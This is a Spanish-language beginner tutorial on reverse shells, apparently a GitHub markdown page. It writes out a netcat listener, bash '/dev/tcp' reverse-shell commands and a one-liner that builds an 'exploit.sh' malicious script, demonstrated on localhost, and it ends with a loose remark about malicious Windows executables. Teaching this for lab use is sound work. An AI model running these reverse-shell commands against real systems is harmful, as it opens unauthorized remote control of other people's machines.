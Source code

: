 ```yaml
---
title: Pentesting
published: true
---
```



<h2> TE AMO LU ME AMAS?</h2>

**Hola** hoy estaermos hablando de pentesting web, hablaremos sobre:
* **Creacion de ReverseShell comandos.**
* **Como estan compuestos los payloads exploits malware para windows.**
<br>

Vale primero que es una **ReverseShell**, lo explicara en un lenguaje brusco, una ReverShell es aquella que te permite
ejecutar comandos en una pc que no es tu dominio, es decir una ip el cual es la de la victima conectada a un hosts,
donde el hosts es tu equipo y te permite ejecucion remota de comandos.

[Puedes encontrar mas informacion aqui](https://www.google.com/search?q=ReverseShell&client=firefox-b-d&sxsrf=ALiCzsbKFcBidTADzj_JE7x-ksfIvwVUpA%3A1658946186694&ei=ioLhYpz9KeezqtsPnd-L8A0&ved=0ahUKEwic6qKR2Jn5AhXnmWoFHZ3vAt4Q4dUDCA0&uact=5&oq=ReverseShell&gs_lcp=Cgdnd3Mtd2l6EAMyBwgjELECECcyBwgjELECECcyBwgjELECECcyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEM6BwgAEEcQsAM6BAguECc6BAgjECc6CwgAEIAEELEDEIMBOgcIIxDqAhAnOggIABCxAxCDAToFCAAQgAQ6BAgAEAM6BggjECcQEzoKCAAQsQMQgwEQQzoKCC4QsQMQgwEQQzoGCAAQChBDOggIABCABBCxAzoICC4QgAQQsQM6BwgAEIAEEAo6BwgAEAoQywE6BQgAEMsBSgQIQRgASgQIRhgAUM4EWPkxYJkzaAhwAXgBgAHzAYgBrBqSAQYwLjE0LjSYAQCgAQGwAQrIAQjAAQE&sclient=gws-wiz).

-------
<br>

<h3><font color="lime">[*]</font> Empezaremos con las pruebas de ReverseShell:</h3>
los programas a utilizar para la ReverseShell es bash, netcat, si usas linux es probable que ya los tengas instalados, 
en el caso contrario ejecuta:
<br>

para linux:

 `sudo apt-get install netcat bash`

para arch-linux:

`pacman -Sy netcat bash`

<br>
<br>

<h3>IMPORTANTE</h3> <ph><font color="green">[*]</font> Para estas bruebas si lo vas a hacer desde terminal, tienes que utilizar bash y no zsh por que te dara
errores, claro si quieres puedes probar de zsh y conocer los errores pero si quieres omitir esto, entonces solo ejecutas
el siguiente comando:</ph>

`bash`


<img src="screenshots/screen_bash.jpg">

<ph><font color="lime">[↑]</font> Como puede ver ya no estoy en la zsh entonces vamos a operar desde la terminal y luego operaremos de un script mailicioso.</ph>
<br>

---
<br>
<ph><font color="lime">[*]</font> Empezamos poniendonos en escucha por el puerto 443 de netcat : </ph>

`nc -nvlp 443`

<ph><font color="lime">[*]</font> Miramos que ip tenemos con el comando ifconfig :</ph>

`ifconfig`

<img src="screenshots/ifconfig.jpg">

<ph><font color="lime">[↑]</font> Como pueden ver tengo la ip 127.0.0.1</ph>
<br>
<ph><font color="lime">[*]</font> Ahora estando en escucha con netcat "nc -nlvp 443" en el puerto 443, vamos a entablarnos la coneccion desde otra
terminal por que la primera esta siendo ocupada por netcat entonces recuerden ejecutar el comando <b>bash</b> antes de entablar
la coneccion.</ph>

<br>

<ph><font color="lime">[*]</font> Para entablar la coneccion hacemos el siguiente comando :</ph>
<br>

`bash  	   `

`bash -i >& /dev/tcp/TU-IP/443/ 0>&1`


<img src='screenshots/reverse.jpg'>

<ph><font color="lime">[↑]</font> Como pueden ver se me abrio un <b>ReverseShell</b> en la parte donde estaba en escucha con netcat.</ph>

-------
<br>

<ph><font color="lime">[*]</font> Ahora pasaremos a desarrollar un <b>script malicioso en bash</b>, para ello aremos los mismo solo que esta ves el comando : 
`bash -i >& /dev/tcp/127.0.0.1/443 0>&1` ira dentro de un script sh para ello:</ph>

<br>

```
touch exploit.sh && echo -e "bash -i &>/dev/tcp/$(cat /etc/hosts  | grep localhost | awk "NR==1" | cut -d " " -f "1-1")/443 0>&1" >> exploit.sh && chmod +x ./exploit.sh
```

<br>

<ph><font color="lime">[*]</font> Lo que desarrolle con ese comando fue hacer un script en bash para poder entablarme una coneccion pueden hacer <b>ls</b> y veran un
 archivo llamado <b>exploit.sh</b> y de paso otorgarle permiso de ejecucion.</ph>

No se ofusque si no entiende la anterior  linea de codigo simplemente lo que hace es hacer un archivo con `touch` darle permisos
con de ejecucion `chmod +x exploit.sh` y meterle adentro con `>>` el codigo :

```#!/bin/bash
   bash -i >& /dev/tcp/127.0.0.1 0>&1
```
<br>
<ph><font color="lime">[*]</font> Pueden hacerlo manualmente con los siquientes comandos :</ph>

`touch exploit.sh`
`chmod +x exploit.sh`
Abren el archivo creado y colocan la `bash -i >& /dev/tcp/SU-IP/443 0>&1`

<br>

<ph><font color="lime">[*]</font> Una vez ya echo el archivo, pongace en escucha por el puerto 443 con netcat. Recuerde
que con el comando <b>nc -nlvp 443</b> nos poniamos en escucha por el puerto 443 este puerto puede ser modificado siempre
y cuando el puerto no este en uso, y claramente en el exploit o codigo ponga su respectivo puerto.ﾠ</ph>

ﾠ
<ph><font color="lime">[*]</font> Nos ponemos en escucha con netcat</ph>
`nc -nlvp 443`

<ph><font color="lime">[*]</font> Y ejecutamos el archivo creado</ph>
`./exploit.sh`

<img src="screenshots/final.jpg">

<ph><font color="lime">[*]</font><b> Ahora como puden ver tengo una reverse shell</b></ph>

<br>

<ph><font color="lime">[*]</font> Lo mas comodo de hacerlo por script es que se puden ejecutar el archivo teniendo la zsh y ahorrandose el comando `bash` y
 ejecutar el archivo este se debe a la extension <b>"sh"</b> que tiene el archivo.</ph>
<br>
<ph>Vale ya sabes al menos cosas basicas de como entablarte un reverse shell luego voy a hacer que entiendas como
ganar acceso a un sistema.<b>http,https.</b></ph>


---

<h3>¿Como estan desarollados los backdoor, exploits, payloads y malware?</h3>
<ph>Te lo voy a explicar en un lenguaje brusco es decir a mi manera para que puedas entenderlo mas facil.<ph>
<ph>Un archivo malicioso ya puede ser malware exploit backdoor (Puerta tracera) payloads, no son mas que archivos en
binario que si recuerdas es lenguaje de la computadora que usa para poder operar. estos archivos puden ser
tambien escritos en hexadecimal para poder luego con un compilador pasarlo a binario.
para esto existen compiladores que te ayudan a crear este tipo de archivo el ultimo
exe que hice fue un archivo escrito en <b>C</b> ganabas acceso al sistema con solo abrirlo, pero este no es el caso de hablar de esto.
si quieres aprender a desarrollar un .exe debes aprender lenguaje c y con ayuda de una herramienta poder compilarlos
yo utilizaba code block, asi y poder luego crearte archivos .exe a tu favor.</ph>

